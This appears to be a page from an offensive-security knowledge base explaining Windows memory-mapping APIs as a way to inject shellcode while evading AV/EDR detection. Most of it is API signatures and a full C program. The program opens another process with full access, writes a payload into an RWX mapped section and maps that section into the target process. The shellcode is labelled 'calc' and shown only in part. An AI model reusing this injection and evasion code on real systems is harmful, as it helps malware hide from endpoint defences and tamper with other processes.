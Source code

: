 ```yaml
---
description: >-
  Using private memory allocation functions are heavily monitored by AV/EDR.
  Using mapped memory can help circumvent detection.
---
```


# Memory Mapping



***

## CreateFileMapping

[CreateFileMapping](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfilemappinga) allows a process to create a virtual memory space that maps to the contents of a file on disk or to another memory location. The function returns a handle to the file mapping object.

```c
HANDLE CreateFileMappingA(
  [in]           HANDLE                hFile,
  [in, optional] LPSECURITY_ATTRIBUTES lpFileMappingAttributes,     // Not Required - NULL
  [in]           DWORD                 flProtect,
  [in]           DWORD                 dwMaximumSizeHigh,           // Not Required - NULL
  [in]           DWORD                 dwMaximumSizeLow,
  [in, optional] LPCSTR                lpName                       // Not Required - NULL   
);
```

`hFile` - A handle to a file from which to create a file mapping handle.

`flProtect` - Specifies the page protection of the file mapping object. (`PAGE_EXECUTE_READWRITE)`

`dwMaximumSizeLow` - The size of the file mapping handle returned. (Size of payload)

## M**apViewOfFile**

[MapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile) maps a view of a file mapping object into the address space of a process.&#x20;

```c
LPVOID MapViewOfFile(
  [in] HANDLE     hFileMappingObject,
  [in] DWORD      dwDesiredAccess,
  [in] DWORD      dwFileOffsetHigh,           // Not Required - NULL
  [in] DWORD      dwFileOffsetLow,            // Not Required - NULL
  [in] SIZE_T     dwNumberOfBytesToMap
);
```

* `hFileMappingObject` - The returned handle from the `CreateFileMapping` WinAPI, which is the file mapping object.
* `dwDesiredAccess` - The type of access to a file mapping object, which determines the page protection of the page created. Should correspond w/ the flProtect attributes in CreateFileMapping.
* `dwNumberOfBytesToMap` - The size of the payload.



The below code creates a local and remote memory mapping that contains the Payload w/ RWX permissions.

```c
#include <stdio.h>
#include <wchar.h>
#include <windows.h>
#include <memoryapi.h>


#pragma comment(lib, "onecore.lib")

// x64 calc shellcode 
unsigned char Payload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51
};


int wmain( int argc, wchar_t* argv[]) {

    HANDLE hProcess = NULL;
    HANDLE hLocalFile = NULL;
    PVOID pLocalMapAddress = NULL;
    PVOID pRemoteMapAddress = NULL;
    DWORD PID = 0;

    if (argc < 2) {
        wprintf(L"[!] Insufficient Arguments Passed To Main Function\n");
        return -1;
    }

    PID = _wtoi(argv[1]);


    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    if (hProcess == NULL) {
        wprintf(L"[!] Failed to Open Process %d\n", GetLastError());
        return -1;
    }

    // Create Local Mapped Memory for payload 
    hLocalFile = CreateFileMappingW(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sizeof(Payload), NULL);
    if (hLocalFile == NULL) {
        wprintf(L"[!] CreateFileMappingW Failed %d\n", GetLastError());
        return -1;
    }

    
    pLocalMapAddress = MapViewOfFile(hLocalFile, FILE_MAP_WRITE, NULL, NULL, sizeof(Payload));
    if (pLocalMapAddress == NULL) {
        wprintf(L"[!] MapViewOfFile Failed %d\n", GetLastError());
        return -1;
    }

    // Copy Payload to to Local Mapped Memory
    memcpy(pLocalMapAddress, Payload, sizeof(Payload));


    // Copy & Create Remote Memory Mapping
    pRemoteMapAddress = MapViewOfFile2(hLocalFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
    if (pRemoteMapAddress == NULL) {
        wprintf(L"[!] MapViewOfFile Failed %d\n", GetLastError());
        return -1;
    }   

    wprintf(L"[+] Copied payload to remote memory address: %p\n", pRemoteMapAddress);
    getchar();

    return 0;
}

```

_**To Map Memory in Remote Process We can use the following:**_

## MapViewOfFile2

[MapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) is used to map memory in a remote process.

```c
PVOID MapViewOfFile2(
  [in]           HANDLE  FileMappingHandle,
  [in]           HANDLE  ProcessHandle,
  [in]           ULONG64 Offset,
  [in, optional] PVOID   BaseAddress,
  [in]           SIZE_T  ViewSize,
  [in]           ULONG   AllocationType,
  [in]           ULONG   PageProtection
);
```

## MapViewOfFile3

[MapViewOfFile3](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile3) is used to map memory in a remote process.

```c
PVOID MapViewOfFile3(
  [in]                HANDLE                 FileMapping,
  [in]                HANDLE                 Process,
  [in, optional]      PVOID                  BaseAddress,
  [in]                ULONG64                Offset,
  [in]                SIZE_T                 ViewSize,
  [in]                ULONG                  AllocationType,
  [in]                ULONG                  PageProtection,
  [in, out, optional] MEM_EXTENDED_PARAMETER *ExtendedParameters,
  [in]                ULONG                  ParameterCount
);
```

## UnmapViewOfFile

[UnmapViewOfFile](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-unmapviewoffile) is used to unmap previously mapped memory. This should be called on cleanup.

## UnmapViewOfFileEx

This is an extended version of [UnmapViewOfFile](https://learn.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-unmapviewoffile) that takes an additional flags parameter.

## UnmapViewOfFile2

[UnmapViewOfFile2](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-mapviewoffile2) Unmaps a previously mapped view of a file or a pagefile-backed section.
